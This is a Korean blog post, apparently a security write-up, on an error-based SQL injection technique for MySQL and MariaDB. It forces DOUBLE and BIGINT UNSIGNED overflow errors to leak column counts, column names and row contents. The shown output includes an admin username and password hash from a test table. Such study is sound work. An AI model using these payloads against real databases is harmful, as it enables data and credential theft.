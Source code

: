```yaml
---
layout: post
title: Another Error-based SQL Injection on MySQL
comments: true
---
```


RDot.org에서 우연찮게 발견한 글로 의도적으로 UNSIGNED BIGINT의 범위를 넘김으로써 Error를 출력하는 방법이 나와 있었다. Error-based의 일종일 것이라고 생각 했지만 더 읽어보면 information_schema에서 데이터를 가져오는것이 아닌 방법으로 column명을 알아 낼 수 있었다.

1E308은 DOUBLE, 18446744073709551610는 UNSINGED BIGINT 에러를 발생시킬수 있는 수라고 생각하자.

아래는 컬럼의 갯수를 알아내는 방법이다.
{% highlight text %}
mysql> SELECT (SELECT * FROM member)in(1);
ERROR 1241 (21000): Operand should contain 3 column(s)
{% endhighlight %}

아래는 특정 테이블의 컬럼명을 가져오는 방법이다.
{% highlight text %}
mysql> SELECT 2 * IF((SELECT * FROM(SELECT * FROM member)s)>(SELECT * FROM member LIMIT 1),1E308,1E308);
ERROR 1690 (22003): DOUBLE value is out of range in '(2 * if(((select `s`.`idx`,`s`.`username`,`s`.`password` from (select `test`.`member`.`idx` AS `idx`,`test`.`member`.`username` AS `username`,`test`.`member`.`password` AS `password` from `test`.`member`) `s`) > (select `test`.`member`.`idx`,`test`.`member`.`username`,`test`.`member`.`password` from `test`.`member` limit 1)),1E308,1E308))'
{% endhighlight %}

아래는 테이블의 내용을 가져오는 방법이다.
{% highlight text %}
mysql> SELECT 2 * IF((SELECT * FROM(SELECT * FROM member LIMIT 1)s)>(SELECT * FROM member LIMIT 1),1E308,1E308);
ERROR 1690 (22003): DOUBLE value is out of range in '(2 * if(((select '1','admin','c9c54cb3c5cb3f58ba284531698826eebb620574' from dual) > (select `test`.`member`.`idx`,`test`.`member`.`username`,`test`.`member`.`password` from `test`.`member` limit 1)),1E308,1E308))'
{% endhighlight %}


{% highlight text %}
/* Max length of a error message. Should be kept in sync with MYSQL_ERRMSG_SIZE. */
#define ERRMSGSIZE      (512)
{% endhighlight %}
위 코드를 보면 알 수있듯 이 방법에서 주의 해야할 방법은 Error길이가 512가 최대라는 것이다. 그 이상 넘기는 메세지에 대해서는 볼 수 없기 때문이다.

아래는 기존의 MySQL이 아닌 MariaDB에서 위 방법을 했을 경우 _select #_라고 나와 버리는 것 때문에 아래처럼 다른 방법을 써줘야 한다.
{% highlight text %}
mysql> SELECT 2*(IF((SELECT * FROM (SELECT (version()))s), 18446744073709551610, 18446744073709551610));
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(2 * if((select #),18446744073709551610,18446744073709551610))'
mysql> SELECT !x-~0 FROM(SELECT version()x)y;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('5.5-MariaDB')) - ~(0))'
{% endhighlight %}

## Reference
* <https://rdot.org/forum/showthread.php?t=3167>